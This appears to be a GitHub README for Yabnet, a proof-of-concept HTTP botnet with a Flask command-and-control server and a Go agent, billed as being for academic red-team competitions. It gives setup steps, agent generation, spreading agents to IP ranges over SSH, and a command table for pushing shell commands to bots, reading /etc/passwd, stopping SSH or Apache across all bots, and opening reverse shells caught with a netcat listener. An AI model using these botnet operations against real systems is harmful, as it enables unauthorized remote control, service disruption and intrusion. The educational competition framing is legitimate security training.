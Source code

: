# Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment. 

Yabnet server is written in Python3++ Flask, deployed in docker. Yabnet agent is written in Golang.

From setting up the server, freezing the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

-----------

## Under Construction - TODO 

**Yabnet is currently under construction.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [x] Support windows for agent 
- [x] Clean up debugging codes in all files 
- [x] Enhance golang agent & generation of golang 
- [x] Enhance README documentation and usage
- [ ] Add upload feature from master to server 
- [ ] Finalize and structure all in-code comments  
- [ ] Support communicating with PWNBOARD 

-----------

## Installation 

**Yabnet requires python3, GOLANG, curl and docker**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

### Server configuration & setup
**Edit `Prodconfig` in `/yabnet/server/config.py` first.**
```
cd /opt/yabnet/server

docker build -t yabnet .
docker run -p <ip>:<port>:<port> yabnet

```

### Agent setup - Golang 

**Generating Agent through master console**
```
Yabnet>> generate -i <serverip> -p <serverport>
Yabnet>> generate -i 192.168.204.153 -p 5000 -w   // -w is for Windows
```

**Transfer the agent file** 

Transfer `/opt/yabnet/agent/agent` or `/opt/yabnet/agent/agent.exe` to the target machine and run it. Feel free to change the name of the executable. 

### Master setup

Use the credential that was configured in `/yabnet/server/config.py` file.

```
python3 /opt/yabnet/master/master.py
Yabnet>> login -r localhost -u <user> -p <password>
Yabnet>> list

Yabnet>> push -h 
``` 


## Components 

**Server and Agent**

Server = Python flask application inside Docker container 

Agent = Golang based static executable 

Master = Python console application for interacting with the server 

**Utility scripts** - In Progress 

`/yabnet/agent/competition_deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH


## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1:443 -u admin -p password` | 
| generate | Compile and generate golang agent binary. Supports x64 of linux, windows | `generate -i 10.0.0.1 -p 443` | 
| list | List all currently registered bots | `list` |
| push | Push a command to bot(s) | `push -t <botid>,<botid> -c "cat /etc/passwd | grep backdoor"` | 
| download | Command a bot to download a file from the server | `download -t <botid> -f test.txt -d c:\users\administrator\a.txt` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botid> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots (Not Recommended) | `broadcast -c "systemctl stop ssh"` | 
| cleanup | Remove all staged commands for all bots | `cleanup` | 
| help, ? | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 

`ex) push -t 1,2,3,4 -c "systemctl stop apache2"`


2. Reverse shell command requires the master to open a new console and setup a netcat listener. 

`ex) reverse -t 11 -p 31337` 

`ex) nc -lvnp 31337         // And then for the reverse shell from 10.0.3.4` 

3. The server is hosting files in `/yabnet/server/uploads/` directory.

4. All commands have `-h` help flag available.

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
